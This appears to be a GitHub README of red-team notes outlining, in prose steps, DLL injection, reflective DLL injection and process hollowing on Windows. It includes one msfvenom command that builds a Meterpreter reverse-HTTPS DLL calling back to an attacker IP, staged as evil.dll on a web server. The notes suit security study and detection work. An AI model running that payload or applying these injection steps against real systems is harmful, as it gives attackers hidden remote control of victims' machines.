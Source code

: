 Theory / Notes / Code

# DLL Injection 
1. Selecting the Target Process: Choose the process into which you want to inject the DLL. This process is identified by its Process ID (PID).
2. Opening the Target Process: Open the selected process, granting access rights to manipulate its memory and threads.
3. Allocating Memory in the Target Process: Allocate memory within the target process to store the path of the DLL being injected and other necessary data structures.
4. Writing DLL Path to Memory: Write the path of the DLL to be injected into the allocated memory space of the target process.
5. Loading DLL into Target Process: Use the LoadLibrary function to load the DLL into the address space of the target process.
6. Executing DLL Code: The injected DLL code is executed within the context of the target process, performing its intended functionality.
7. Cleaning Up Resources: Release allocated memory and close handles to clean up resources after DLL injection is completed.
<br>
Note: Generated DLLs with msfvenom -p windows/x64/meterpreter/reverse_https LHOHOST=192.168.162.140 LPORT=443 -f dll -o /var/www/html/evil.dll

# Reflective DLL Injection 
1. Downloading the Reflective DLL: Download a reflective DLL from a specified URL or location.
2. Opening the Target Process: Open the target process into which you want to inject the reflective DLL. This process is identified by its Process ID (PID).
3. Allocating Memory in the Target Process: Allocate memory within the target process to store the reflective DLL's code and other necessary data structures.
4. Writing Reflective DLL Code to Memory: Write the reflective DLL's code into the allocated memory space of the target process.
5. Executing Reflective DLL Code: Unlike traditional DLL injection, in reflective DLL injection, the reflective DLL's code is designed to execute itself from memory without relying on the LoadLibrary function. This self-execution is typically achieved by the reflective DLL's ability to parse its own PE header and perform necessary relocations and imports.
6. Executing Reflective Loader: Optionally, a reflective loader may be used to simplify the reflective DLL injection process. The reflective loader is responsible for loading the reflective DLL into memory and executing it, making the injection process more streamlined.
7. Cleaning Up Resources: As with traditional DLL injection, release allocated memory and close handles to clean up resources after reflective DLL injection is completed.

# Process Hollowing
1. Downloading the Legitimate Executable: You download an executable file from a specified URL.
2. Opening the Target Process: You open the process into which you want to inject the executable. This process is identified by its Process ID (PID).
3. Allocating Memory in the Target Process: You allocate memory within the target process to store the executable's code.
4. Writing Executable Content to Memory: You read the contents of the downloaded executable file and write them into the allocated memory space of the target process.
5. Setting Entry Point: You set the entry point of the target process to the starting address of the injected code.
6. Suspending Threads: You suspend all threads within the target process to prevent them from executing.
7. Updating Thread Context: You update the context of the main thread in the target process to set its instruction pointer (EIP) to the entry point of the injected code.
8. Resuming Threads: After updating the thread context, you resume the main thread of the target process, which starts executing the injected code.
9. Cleaning Up Resources: Finally, you release allocated memory and close handles to clean up resources.
